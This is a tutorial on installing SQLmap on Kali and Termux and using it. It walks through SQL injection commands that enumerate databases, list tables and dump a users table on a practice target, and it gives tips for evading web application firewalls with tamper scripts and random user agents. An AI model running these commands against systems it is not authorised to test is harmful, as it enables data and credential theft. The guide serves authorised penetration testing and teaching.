

What is SQLmap?

SQLmap is an open-source penetration testing tool written in Python that automates the detection and exploitation of SQL injection vulnerabilities in web applications. Point it at a vulnerable URL parameter and it handles everything — fingerprinting the database engine, extracting tables, dumping credentials, and more.
Installation
SQLmap is a Python tool — it installs cleanly on both Kali and Termux. Pick your platform below.
SQLmap is pre-installed on most Kali builds. Check first — if it's already there, just update it. If not, one apt command installs it.
$ sqlmap --version
1.10.4#stableIf that returns a version number, SQLmap is already installed. Update it with:
$ sudo apt update && sudo apt upgrade sqlmap -yIf SQLmap is not installed, install it fresh:
$ sudo apt update
$ sudo apt install sqlmap -yOn Termux, SQLmap isn't in the main pkg repo — install Python and git, then clone directly from the official GitHub repo. This gives you the latest version every time.
$ pkg update && pkg upgrade -y
$ pkg install python git -y$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev$ cd sqlmap-dev
$ python3 sqlmap.py --version
1.10.4#stablepython3 ~/sqlmap-dev/sqlmap.py every time, add an alias to your shell profile:echo "alias sqlmap='python3 ~/sqlmap-dev/sqlmap.py'" >> ~/.bashrc && source ~/.bashrcNow you can just type
sqlmap like on Kali.Verify & First Run
Once installed, verify it launches cleanly and shows the banner.
$ sqlmap --versionRun sqlmap -h to see the full help banner and confirm the tool is working:
$ sqlmap -hBasic Usage — SQL Injection Workflow
A typical SQLmap workflow follows these steps — always against targets you own or are authorised to test. The example URL used here is a local practice machine.
--dbs.-D dbname --tables to see what tables exist.-D dbname -T tablename --dump.Each of those steps as actual commands (replace the URL with your authorised target):
$ sqlmap -u "http://target.local/page.php?id=1"$ sqlmap -u "http://target.local/page.php?id=1" --dbs
[*] available databases [2]:
[*] information_schema
[*] acuart$ sqlmap -u "http://target.local/page.php?id=1" -D acuart --tables
[8 tables]
+-----------+
| artists |
| carts |
| categ |
| featured |
| guestbook |
| pictures |
| products |
| users |
+-----------+$ sqlmap -u "http://target.local/page.php?id=1" -D acuart -T users --dump| Flag | What it does |
|---|---|
-u URL | Target URL with a parameter (required) |
--dbs | Enumerate all databases on the server |
-D <db> | Target a specific database |
--tables | List tables in the specified database |
-T <table> | Target a specific table |
--dump | Extract and display the table contents |
--batch | Auto-answer all prompts (non-interactive mode) |
--random-agent | Use a random User-Agent to reduce WAF detection |
--proxy http://127.0.0.1:8080 | Route traffic through Burp Suite for analysis |
-r file.txt | Load a saved HTTP request file (captured from Burp) |
--level=5 --risk=3 | Increase test depth and payload aggressiveness |
Troubleshooting
sqlmap: command not found on Kali
sudo apt install sqlmap -y. SQLmap is pre-installed on most Kali builds but may be missing from a minimal install. Check with apt-cache show sqlmap to confirm it's in your repos.python3: command not found on Termux
pkg install python -y then retry. On Termux, python3 and python both point to the same binary after install.--level=5 --risk=3 to run deeper tests. Also ensure the URL parameter you're targeting actually exists and returns different responses — test manually in a browser first.--random-agent to randomise the User-Agent header, or route through Burp with --proxy http://127.0.0.1:8080. For tougher WAFs, try tamper scripts: --tamper=space2comment,between.--batch to your command. This tells SQLmap to auto-accept all default answers to prompts and run without user interaction — useful for scripting or long sessions.